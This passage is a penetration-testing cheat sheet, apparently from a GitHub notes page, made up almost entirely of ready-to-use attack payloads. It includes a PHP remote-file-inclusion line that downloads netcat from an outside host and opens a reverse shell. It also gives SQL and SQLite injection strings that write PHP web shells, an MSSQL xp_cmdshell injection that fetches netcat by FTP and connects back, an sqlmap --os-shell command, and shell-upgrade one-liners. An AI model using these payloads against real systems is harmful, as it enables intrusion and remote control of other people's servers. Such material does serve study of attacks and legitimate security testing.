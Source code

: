 ### Remote File Inclusion Shell: Windows + PHP <a id="remote-file-inclusion-shell-windows-php"></a>

```php
<?php system("powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.245/netcat/nc.exe','nc.exe'); cmd /c nc.exe 10.11.0.245 4444 -e cmd.exe\" }"); ?>
```

### SQL Injection to Shell or Backdoor <a id="sql-injection-to-shell-or-backdoor"></a>

```bash
# Assumed 3 columns
http://target/index.php?vulnParam=0' UNION ALL SELECT 1,"<?php system($_REQUEST['cmd']);?>",2,3 INTO OUTFILE "c:/evil.php"-- uMj
```

```bash
# sqlmap; post-request - captured request via Burp Proxy via Save Item to File.
sqlmap -r post-request -p item --level=5 --risk=3 --dbms=mysql --os-shell --threads 10
```

```bash
# netcat reverse shell via mssql injection when xp_cmdshell is available
1000';+exec+master.dbo.xp_cmdshell+'(echo+open+10.11.0.245%26echo+anonymous%26echo+whatever%26echo+binary%26echo+get+nc.exe%26echo+bye)+>+c:\ftp.txt+%26+ftp+-s:c:\ftp.txt+%26+nc.exe+10.11.0.245+443+-e+cmd';--
```

### SQLite Injection to Shell or Backdoor <a id="sqlite-injection-to-shell-or-backdoor"></a>

```bash
ATTACH DATABASE '/home/www/public_html/uploads/phpinfo.php' as pwn; C
REATE TABLE pwn.shell (code TEXT); 
INSERT INTO pwn.shell (code) VALUES ('<?php system($_REQUEST['cmd']);?>');
```

### MS-SQL Console <a id="ms-sql-console"></a>

```bash
mssqlclient.py -port 27900 user:password@10.1.1.1
sqsh -S 10.1.1.1 -U user -P password
```

### Upgrading Non-Interactive Shell <a id="upgradig-non-interactive-shell"></a>

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
/bin/busybox sh
```

### Python Input Code Injection <a id="python-input-code-injection"></a>

